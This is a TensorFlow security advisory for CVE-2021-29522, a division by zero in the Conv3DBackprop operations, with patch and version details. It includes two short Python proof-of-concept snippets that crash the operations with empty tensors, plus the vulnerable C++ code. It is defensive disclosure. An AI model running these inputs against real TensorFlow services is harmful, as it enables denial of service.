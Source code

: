 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-011.md
## TFSA-2021-011: Division by 0 in `Conv3DBackprop*`

### CVE Number
CVE-2021-29522

### Impact
The `tf.raw_ops.Conv3DBackprop*` operations fail to validate that the input
tensors are not empty. In turn, this would result in a division by 0:

```python
import tensorflow as tf

input_sizes = tf.constant([0, 0, 0, 0, 0], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 1, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_sizes = tf.constant([1], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
filter_tensor = tf.constant([0, 0, 0, 1, 0], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([], shape=[1, 1, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/a91bb59769f19146d5a0c20060244378e878f140/tensorflow/core/kernels/conv_grad_ops_3d.cc#L430-L450)
does not check that the divisor used in computing the shard size is not zero:

```cc
  const int64 size_A = output_image_size * dims.out_depth;
  const int64 size_B = filter_total_size * dims.out_depth;
  const int64 size_C = output_image_size * filter_total_size;
  const int64 work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction
        ? 1
        : (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

Thus, if attacker controls the input sizes, they can trigger a denial of service
via a division by zero error.

### Patches
We have patched the issue in GitHub commit
[311403edbc9816df80274bd1ea8b3c0c0f22c3fa](https://github.com/tensorflow/tensorflow/commit/311403edbc9816df80274bd1ea8b3c0c0f22c3fa).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

